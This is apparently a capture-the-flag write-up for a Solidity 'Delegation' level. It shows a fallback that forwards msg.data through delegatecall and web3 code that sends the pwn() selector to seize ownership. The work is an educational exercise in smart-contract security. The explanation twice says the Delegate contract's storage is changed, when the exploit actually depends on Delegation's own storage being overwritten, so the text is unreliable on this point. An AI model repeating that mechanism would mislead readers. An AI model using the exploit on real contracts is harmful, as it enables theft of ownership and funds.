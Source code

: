# Delegation

# Problem Statement

```
The goal of this level is for you to claim ownership of the instance you are given.

Things that might help
- Look into Solidity's documentation on the delegatecall low level function, how it works, 
how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids
```

# Solution
In the target contract, `Delegation`, notice the `delegatecall(msg.data)` in the `fallback` function:
```
fallback() external {
  (bool result,) = address(delegate).delegatecall(msg.data);
  if (result) {
    this;
  }
}
```
Also notice the `Delegate` contract function `pwn` sets the `owner`:
```
function pwn() public {
  owner = msg.sender;
}
```
Also note that if `pwn()` is called using `delegatecall` then it will modify the storage of
the calling contract which in this case is the `Delegate` contract.
With these pieces of information, we can make a call to the `Delegation` `fallback` function and with a data of `pwn()` which will change the `Delegate` contract's `owner` value:
```
await contract.owner() // check the owner
let sig = web3.eth.abi.encodeFunctionSignature("pwn()")
await web3.eth.sendTransaction({
  to: contract.address,
  from: player,
  data: sig
})
await contract.owner() // your EOA should be the owner now
```
We've completed this lesson!

# Key Learnings
- Be careful when using `delegatecall` and especially with `msg.data` as it's input parameter.
